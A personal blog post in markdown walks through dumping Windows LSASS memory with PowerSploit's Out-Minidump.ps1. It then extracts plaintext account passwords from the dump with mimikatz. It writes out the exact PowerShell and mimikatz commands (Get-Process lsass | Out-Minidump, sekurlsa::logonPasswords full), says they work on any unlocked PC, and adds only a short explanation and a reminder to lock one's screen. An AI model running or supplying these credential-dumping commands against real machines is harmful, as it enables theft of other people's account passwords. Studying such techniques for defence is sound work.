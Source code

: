 ```yaml
---
layout: post
title: Getting plaintext Windows passwords on unlocked PC
description: A simple how-to article demonstrating existing vulnerability that makes your Windows passwords are hackable.
tags: [Windows, Password, Vulnerability]
comments: true
---
```


I found [this article](http://www.fixedbyvonnie.com/2015/02/hack-passwords-of-windows-in-5-minutes) mentioning the existing vulnerability in Windows PC where you can the plaintext view of your passwords on unlocked computer. So, I tried it on my Windows 10 PC and found that the vulnerability is still there. The method used here is not new at all, and anyone can perform this hacking on any unlocked Windows PC.



### Tools you need

- [mimikatz](https://github.com/gentilkiwi/mimikatz/releases/latest) - just get the binary package, e.g. `mimikatz_trunk.zip`
- [Out-Minidump.ps1](https://raw.github.com/mattifestation/PowerSploit/master/Exfiltration/Out-Minidump.ps1) - PowerShell script

Download all those tools and let's start hacking!



### 1. Perform memory dump using the PowerShell script

To perform the [LSASS](https://technet.microsoft.com/en-us/library/cc961760.aspx) dump, we will use the PowerShell script - `Out-Minidump.ps1`. The flow of cmdlet will look like this:

{% include figure.html src="assets/images/1lQnyhZ.png" caption="PowerShell cmdlet" %}

```powershell
. 'G:\USERFILES\Desktop\PowerShell Playground\Out-Minidump.ps1'
# "dot sourcing" method to import function from the script

Get-Process lsass | Out-Minidump
# To perform the LSASS dump

Copy-Item .\lsass_868.dmp 'G:\USERFILES\Desktop\PowerShell Playground'
# Copy the dump file to desired location
```

### 2. View the passwords using the mimikatz terminal program

As you can see, `lsass_868.dmp` is the example of LSASS dump file captured using the PowerShell script. Now, it's time we use the mimikatz terminal to load in the dump file as follows:

```
sekurlsa::minidump "G:\USERFILES\Desktop\PowerShell Playground\lsass_868.dmp"
```

{% include figure.html src="assets/images/OPA0g0w.png" caption="mimikatz MINIDUMP" %}

Switching to MINIDUMP file, so now we can view the passwords. Now, run this command to display all the accounts and passwords available:

```
sekurlsa::logonPasswords full
```

Voila! Now, you can see your actual Microsoft Account username and password in _a plaintext view_.

{% include figure.html src="assets/images/nWPZUIR.jpg" caption="mimikatz logonPasswords" %}



### The vulnerability explanation

The fact is that the password is encrypted but it's useless as the implementation depends on two basic Win32 functions; [LsaProtectMemory](https://msdn.microsoft.com/en-us/library/windows/desktop/ff714509%28v=vs.85%29.aspx) (the encryption function) and [LsaUnprotectMemory](https://msdn.microsoft.com/en-us/library/windows/desktop/ff714510(v=vs.85).aspx) (the decryption function). And Windows stores encrypted user passwords in memory without using one-way hash which is decryptable using **LsaUnprotectMemory** function to a plain text.



Do not forget to lock your Windows when you leave your desk!